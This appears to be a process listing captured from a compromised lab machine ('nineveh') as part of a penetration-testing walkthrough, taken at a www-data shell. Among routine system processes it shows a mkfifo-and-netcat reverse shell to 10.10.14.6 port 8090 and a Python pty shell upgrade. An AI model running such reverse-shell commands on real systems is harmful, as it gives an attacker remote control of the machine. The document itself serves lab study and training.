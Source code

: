 ```sh
[bioset]
[kworker/u2:32]
[kworker/0:1H]
[raid5wq]
[bioset]
[jbd2/sda1-8]
[ext4-rsv-conver]
/usr/sbin/apache2 -k start
/lib/systemd/systemd-journald
[kauditd]
[iscsi_eh]
[ib_addr]
[ib_mcast]
[ib_nl_sa_wq]
[ib_cm]
[iw_cm_wq]
[rdma_cm]
/sbin/lvmetad -f
/lib/systemd/systemd-udevd
/lib/systemd/systemd-timesyncd
/sbin/iscsid
/sbin/iscsid
/usr/lib/snapd/snapd
/usr/sbin/atd -f
/usr/sbin/cron -f
/usr/lib/accountsservice/accounts-daemon
/usr/bin/dbus-daemon --system --address=systemd: --nofork --nopidfile --systemd-activation
/usr/sbin/sshd -D
/usr/sbin/acpid
/usr/bin/lxcfs /var/lib/lxcfs/
/usr/sbin/rsyslogd -n
/usr/bin/vmtoolsd
/lib/systemd/systemd-logind
/usr/lib/policykit-1/polkitd --no-debug
/sbin/agetty --noclear tty1 linux
/usr/sbin/knockd -d -i ens33
/sbin/mdadm --monitor --pid-file /run/mdadm/monitor.pid --daemonise --scan --syslog
/usr/sbin/apache2 -k start
sh -c rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.6 8090 >/tmp/f
cat /tmp/f
/bin/sh -i
nc 10.10.14.6 8090
/usr/sbin/apache2 -k start
python3 -c import pty; pty.spawn("/bin/bash")
/bin/bash
/usr/sbin/apache2 -k start
/usr/sbin/apache2 -k start
[kworker/0:1]
/usr/sbin/apache2 -k start
/usr/sbin/apache2 -k start
/usr/sbin/apache2 -k start
/usr/sbin/apache2 -k start
/usr/sbin/apache2 -k start
/usr/sbin/apache2 -k start
/usr/sbin/apache2 -k start
[kworker/0:2]
ps -eo command
www-data@nineveh:/report$
```
